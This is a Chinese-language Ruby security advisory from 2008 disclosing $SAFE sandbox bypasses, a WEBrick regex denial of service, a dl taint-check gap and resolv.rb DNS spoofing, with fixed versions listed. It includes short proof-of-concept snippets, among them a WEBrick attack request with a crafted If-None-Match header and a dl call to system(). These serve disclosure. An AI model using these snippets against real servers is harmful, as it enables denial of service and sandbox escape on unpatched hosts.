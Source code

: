 ```yaml
---
layout: news_post
title: "Ruby中的多个安全漏洞 - Ruby 官方网站"
author: "Xpol Wan"
date: 2008-08-08 04:40:03 UTC
lang: zh_cn
---
```


Ruby中发现多个安全漏洞。建议你更新到最新版本。

## 详情

发现以下安全漏洞。

### 在安全级别下的几个漏洞

发现在安全级别下存在几个漏洞。

* 在安全级别4下untrace\_var被允许。

      trace_var(:$VAR) {|val| puts "$VAR = #{val}" }

      Thread.new do
       $SAFE = 4
       eval %q{
         proc = untrace_var :$VAR
         proc.first.call("aaa")
       }
      end.join

* 在安全级别4下$PROGRAM\_NAME可能被修改。

      Thread.new do
       $SAFE = 4
       eval %q{$PROGRAM_NAME.replace "Hello, World!"}
      end.join

      $PROGRAM_NAME #=> "Hello, World!"

* 在安全级别1-3下可能调用不安全的方法。

      class Hello
       def world
         Thread.new do
           $SAFE = 4
           msg = "Hello, World!"
           def msg.size
             self.replace self*10 # replace string
             1 # return wrong size
           end
           msg
         end.value
       end
      end

      $SAFE = 1 # or 2, or 3
      s = Hello.new.world
      if s.kind_of?(String)
       puts s if s.size < 20 # print string which size is less than 20
      end

* 在安全级别4下Syslog操作被允许。

      require "syslog"

      Syslog.open

      Thread.new do
       $SAFE = 4
       eval %q{
         Syslog.log(Syslog::LOG_WARNING, "Hello, World!")
         Syslog.mask = Syslog::LOG_UPTO(Syslog::LOG_EMERG)
         Syslog.info("masked")
         Syslog.close
       }
      end.join

以上漏洞是由Keita Yamaguchi报告的。

### WEBrick中的致拒绝服务(DoS)漏洞

WEBrick::HTTP::DefaultFileHandler存在消耗指数时间响应请求的错误，
因为WEBrick::HTTPUtils.split\_header\_value中的一个回溯正则表达式 （backtracking
regular expression）。

可被利用的服务器：

    require 'webrick'
    WEBrick::HTTPServer.new(:Port => 2000, :DocumentRoot => "/etc").start

攻击：

    require 'net/http'
    res = Net::HTTP.start("localhost", 2000) { |http|
      req = Net::HTTP::Get.new("/passwd")
      req['If-None-Match'] = %q{meh=""} + %q{foo="bar" } * 100
      http.request(req)
    }
    p res

在这个例子中这个请求很可能无法完成。

这个漏洞是由Christian Neukirchen报告的。

### dl中缺乏完整性检查
{: #label-3}

dl没有进行完整性检查，因此可能允许攻击者调用危险的函数。

    require 'dl'
    $SAFE = 1
    h = DL.dlopen(nil)
    sys = h.sym('system', 'IP')
    uname = 'uname -rs'.taint
    sys[uname]

这个漏洞是由sheepman报告的。

### resolv.rb的欺骗DNS漏洞

resolv.rb允许远程攻击者欺骗DNS响应。这个漏洞可以通过随机的DNS事务ID和源端口来解决。
所以resolv.rb已经采用随机化的方式来修正。

* 参考： [CVE-2008-1447][1]

这个漏洞是由Tanaka Akira报告的。

## 受影响的版本

1.8系列
: * 1\.8.5 和所有之前的版本
  * 1\.8.6-p285 和所有之前的版本
  * 1\.8.7-p70 和所有之前的版本

1.9系列
: * r18423 和所有之前的修订版本

## 解决办法

1.8系列
: 请更新到1.8.6-p286或者1.8.7-p71。
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p286.tar.gz&gt;][2]

        (md5: 797ea136fe43e4286c9362ee4516674e,
        sha256: 1774de918b156c360843c1b68690f5f57532ee48ff079d4d05c51dace8d523ed,
        size: 4590373)

  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p71.tar.gz&gt;][3]

        (md5: 721741d1e0785a0b6b9fb07d55184908,
        sha256: 30ec4298e9ac186a2fe1a94362919ba805538252b707f3aadae1938429269c1a,
        size: 4805478)

1.9系列

: 请通过Subversion取得最新版本。

      $ svn co http://svn.ruby-lang.org/repos/ruby/trunk ruby

请注意修正这个漏洞的软件包可能已经可以通过你的软件包管理软件更新了。

## 贡献者

感谢Keita Yamaguchi, Christian Neukirchen, sheepman, and Tanaka Akira为Ruby
Security Team指出这个问题。

## 修订记录

* 2008-08-08 12:21 +09:00 fixed the revision number of ruby 1.9.



[1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-1447 
[2]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p286.tar.gz 
[3]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p71.tar.gz 
